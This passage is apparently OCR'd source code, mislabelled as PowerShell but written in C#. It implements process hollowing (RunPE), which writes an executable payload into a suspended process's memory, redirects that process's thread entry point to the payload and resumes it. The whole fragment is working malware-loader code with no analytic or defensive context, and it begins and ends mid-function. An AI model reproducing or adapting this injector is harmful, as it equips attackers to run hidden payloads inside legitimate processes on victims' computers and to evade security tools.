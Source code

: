 ``` powershell
                            throw new Exception();
                        }
                    }
                    int sizeOfImage = BitConverter.ToInt32(Payload, fileAddress + 0x50);
                    int sizeOfHeaders = BitConverter.ToInt32(Payload, fileAddress + 0x54);
                    bool allowOverride = false;
                    VirtualAllocEx_Delegate VirtualAlloc = new VirtualAllocEx_Delegate(VirtualAllocEx);
                    int newImageBase = VirtualAlloc(pi.ProcessHandle, imageBase, sizeOfImage, 0x3000, 0x40);
                    if (newImageBase == 0x0)
                    {
                        throw new Exception();
                    }
                    WriteProcessMemory_Delegate WriteProcessMem = new WriteProcessMemory_Delegate(WriteProcessMemory);
                    if (!WriteProcessMem(pi.ProcessHandle, newImageBase, Payload, sizeOfHeaders, ref readWrite))
                    {
                        throw new Exception();
                    }
                    int sectionOffset = fileAddress + 0xF8;
                    short numberOfSections = BitConverter.ToInt16(Payload, fileAddress + 0x6);
                    for (int I = 0; I < numberOfSections; I++)
                    {
                        int virtualAddress = BitConverter.ToInt32(Payload, sectionOffset + 0xC);
                        int sizeOfRawData = BitConverter.ToInt32(Payload, sectionOffset + 0x10);
                        int pointerToRawData = BitConverter.ToInt32(Payload, sectionOffset + 0x14);
                        if (sizeOfRawData != 0x0)
                        {
                            byte[] sectionData = new byte[sizeOfRawData];
                            Buffer.BlockCopy(Payload, pointerToRawData, sectionData, 0x0, sectionData.Length);
                            if (!WriteProcessMem(pi.ProcessHandle, newImageBase + virtualAddress, sectionData, sectionData.Length, ref readWrite)) throw new Exception();
                        }
                        sectionOffset += 0x28;
                    }
                    byte[] pointerData = BitConverter.GetBytes(newImageBase);
                    if (!WriteProcessMem(pi.ProcessHandle, ebx + 0x8, pointerData, 0x4, ref readWrite)) throw new Exception();
                    int addressOfEntryPoint = BitConverter.ToInt32(Payload, fileAddress + 0x28);
                    if (allowOverride) newImageBase = imageBase;
                    context[0x2C] = newImageBase + addressOfEntryPoint;
                    if (IntPtr.Size == 0x4)
                    {
                        SetThreadContext_Delegate SetThread = new SetThreadContext_Delegate(SetThreadContext);
                        if (!SetThread(pi.ThreadHandle, context))
                        {
                            throw new Exception();
                        }
                    }
                    else
                    {
                        Wow64SetThreadContext_Delegate Wow64SetThread = new Wow64SetThreadContext_Delegate(Wow64SetThreadContext);
                        if (!Wow64SetThread(pi.ThreadHandle, context))
                        {
                            throw new Exception();
                        }
                    }
                    ResumeThread_Delegate ResumeTH = new ResumeThread_Delegate(ResumeThread);
```